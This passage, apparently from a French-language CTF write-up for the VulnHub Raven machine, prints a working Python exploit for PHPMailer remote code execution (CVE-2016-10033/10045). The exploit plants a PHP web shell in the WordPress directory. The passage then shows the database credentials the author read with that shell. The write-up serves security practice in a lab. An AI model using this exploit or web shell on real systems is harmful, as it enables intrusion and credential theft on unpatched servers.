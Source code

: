 Ça ne m'étonne guère, car j'avais croisé ces fichiers sur le [CTF Raven #1]({% link _posts/2023-03-28-Solution-du-CTF-Raven-1-de-VulnHub.md %}).

J'ai repris le code d'exploitation pour `PHPMailer` que j'avais écrit pour le [CTF DonkeyDocker]({% link _posts/2022-01-13-Solution-du-CTF-DonkeyDocker-de-VulnHub.md %}) et je l'ai adapté :

```python
import sys 
import requests 

RW_DIR = "/var/www/html/wordpress" 
URL = "http://raven.local/contact.php" 

# PHPMailer < 5.2.18 Remote Code Execution PoC Exploit (CVE-2016-10033) 
payload = f'"attacker\\" -oQ/tmp/ -X{RW_DIR}/phpcode.php   some"@email.com' 

# Bypass / PHPMailer < 5.2.20 Remote Code Execution PoC Exploit (CVE-2016-10045) 
# payload = f"\"attacker\\' -oQ/tmp/ -X{RW_DIR}/phpcode.php   some\"@email.com" 

RCE_PHP_CODE = "zz<?php system($_GET['cmd']); ?>zz" 

response = requests.post( 
       URL, 
       files={ 
               "action": (None, "submit"), 
               "name": (None, RCE_PHP_CODE + "_name"), 
               "email": (None, payload), 
               "subject": (None, "Hello there"),
               "message": (None, RCE_PHP_CODE + "_message"), 
       }, 
) 
print(response.status_code)
```

Son exécution permet de créer un fichier `phpcode.php` contenant la backdoor de mon choix. Le fichier est placé dans le dossier `wordpress` du site.

## mysql2lpe

Avec mon shell je récupère les identifiants de la BDD dans le fichier de configuration du Wordpress :

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```
